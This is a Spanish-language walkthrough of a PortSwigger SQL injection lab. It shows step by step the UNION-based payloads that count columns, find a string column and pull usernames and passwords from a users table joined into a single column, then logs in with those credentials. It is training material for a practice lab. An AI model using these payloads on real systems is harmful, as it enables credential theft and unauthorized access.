# PortSwigger - SQL injection


## Lab: SQL injection UNION attack, retrieving multiple values in a single column


## Solución

Primero hacemos click en **Gifts** o en cualquier filtro de búsqueda.



Veremos que se agrega una cadena que es vulnerable a SQL injection.



Empezamos enumerando la cantidad de columnas.

```sql
' UNION SELECT null -- -
```



Escribimos dos `null` y comprobamos que existen 2 columnas.

```sql
' UNION SELECT null,null -- -
```



Ahora verificamo si ambas columnas aceptan un string y nos damos cuenta que la primera columna no acepta un string.

```sql
' UNION SELECT 'a',null -- -
```



Probamos con el segundo null y comprobamos que sí acepta strings.

```sql
' UNION SELECT null,'a' -- -
```



Podemos enumerar uno a uno las columnas para obtener los nombres de usuario y contraseñas.

```sql
' UNION SELECT null,username from users -- -
```



```sql
' UNION SELECT null,password from users -- -
```



Pero la idea del laboratorio es practicar una forma de obtener las dol columnas en una sola query. Para eso podemos usar el símbolo `||` que sirve para unir dos columnas en  SQL.

```sql
' UNION SELECT null,password||username from users -- -
```



Podemos separar de mejor forma las dos columnas agregando un símbolo entre las dos columnas. Separaremos ambas columnas con: `||':'||`.

```sql
' UNION SELECT null,password||':'||username from users -- -
```



Con esta información vamos a **My account**.



Iniciamos sesión con las credenciales que obtuvimos anteriormente.



Y resolvemos el lab.


